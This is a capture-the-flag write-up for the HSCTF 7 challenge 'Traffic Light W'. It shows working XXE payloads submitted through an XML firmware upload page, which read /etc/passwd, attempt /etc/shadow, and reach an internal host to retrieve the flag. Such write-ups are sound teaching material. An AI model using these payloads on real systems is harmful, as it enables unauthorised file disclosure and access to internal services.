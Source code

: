 ```yaml
---
title: Traffic Light W
date: 2020-06-07
tags: web, xml, xxe
ctf: HSCTF 7
---
```


## Problem
```
🚦Can you figure out what's going on with this shady company?

https://traffic-light-w.web.hsctf.com/

Author: meow
```

## Solution
Visiting the webpage brings us to the dashboard of Shady Traffic Light Company. We are shown an seemingly meaningless [graph](./files/traffic-graph.png) and the status of five traffic lights:

![Image showing the status of the five traffic lights](./files/traffic-status.png)

We note that two of the five traffic lights are online, that the lights seem to run on Docker (```Docker Hostname``` is one of the table headers), and that there is a button to upload firmware to the traffic lights.

Trying to upload to Traffic Light 1004 gives us an error:
```
1004
Error: High CPU Usage
```

However, Traffic Light 1001 seems to work. We are greeted with a page to upload our XML firmware:

![Image showing the interface to upload XML firmware](./files/upload-firmware.png)

There is a provided example, with the following script:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
  <content>Red</content>
</root>
```

Running the example displays the word ```Red```, so the traffic light seems to parse and run our given XML input. We most likely need to run an XXE (XML External Entity) attack for LFI (Local File Inclusion), to access files stored on the server that we would unable to access otherwise.

We can create a payload that attempts to access ```/etc/passwd``` to see if XXE works:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>
    <content>&xxe;</content>
</root>
```

The page displays ```/etc/passwd```, confirming that XXE is possible:
![root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin man:x:13:15:man:/usr/man:/sbin/nologin postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin cyrus:x:85:12::/usr/cyrus:/sbin/nologin vpopmail:x:89:89::/var/vpopmail:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin](./files/xxe-result.png)

Nothing stands out as a flag, so we can try a few other files, such as ```/etc/shadow```. This would normally store encrypted user credentials. Modifying our payload to access ```file:///etc/shadow``` yields no response, so the file is read protected. Going back to the list of traffic lights, there was a second traffic light with the hostname of ```traffic-light-1004``` which we were unable to upload firmware to. The port is also port ``80``, which is commonly used for HTTP. Perhaps we could try accessing that:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://traffic-light-1004">]>
<root>
<content>&xxe;</content>
</root>
```

This payload was successful, and we get the following message:
```
If you're reading this... You found out that the traffic lights are fake. Don't tell anyone. Here's a flag to make you happy: flag{shh_im_mining_bitcoin} 
```

**Flag:** ```flag{shh_im_mining_bitcoin} ```
